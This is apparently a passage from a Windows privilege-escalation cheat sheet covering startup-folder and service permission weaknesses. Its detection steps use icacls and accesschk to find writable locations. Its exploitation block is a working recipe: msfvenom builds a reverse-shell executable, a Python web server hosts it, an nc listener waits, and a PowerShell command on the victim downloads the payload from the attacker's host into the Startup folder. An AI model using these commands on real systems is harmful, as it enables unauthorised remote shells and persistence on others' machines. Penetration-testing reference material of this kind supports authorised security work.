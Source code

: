 #### Startup applications

##### Detection

```
icacls.exe "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup"

C:\>icacls.exe "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup"
C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup BUILTIN\Users:(F)
                                                             TCM-PC\TCM:(I)(OI)(CI)(DE,DC)
                                                             NT AUTHORITY\SYSTEM:(I)(OI)(CI)(F)
                                                             BUILTIN\Administrators:(I)(OI)(CI)(F)
                                                             BUILTIN\Users:(I)(OI)(CI)(RX)
                                                             Everyone:(I)(OI)(CI)(RX)

If the user you're connecte with has full access ‘(F)’ to the directory (here Users) then it's vulnerable.
```

##### Exploitation

```
# Attacker
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > program.exe
sudo python -m SimpleHTTPServer 80
sudo nc -lvp <PORT>

# Victim
cd "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup"
powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://<IP>/program.exe', '.\program.exe')

To execute it with elevated privileges we need to wait for someone in the Admin group to login.
```

#### Weak service permission 

##### Detection

```
# Find all services authenticated users have modify access onto
accesschk.exe /accepteula -uwcqv "Authenticated Users" *

if SERVICE_ALL_ACCESS then vulnerable

# Find all weak folder permissions per drive.
accesschk.exe /accepteula -uwdqs Users c:\
accesschk.exe /accepteula -uwdqs "Authenticated Users" c:\

# Find all weak file permissions per drive.
accesschk.exe /accepteula -uwqs Users c:\*.*
accesschk.exe /accepteula -uwqs "Authenticated Users" c:\*.*
```
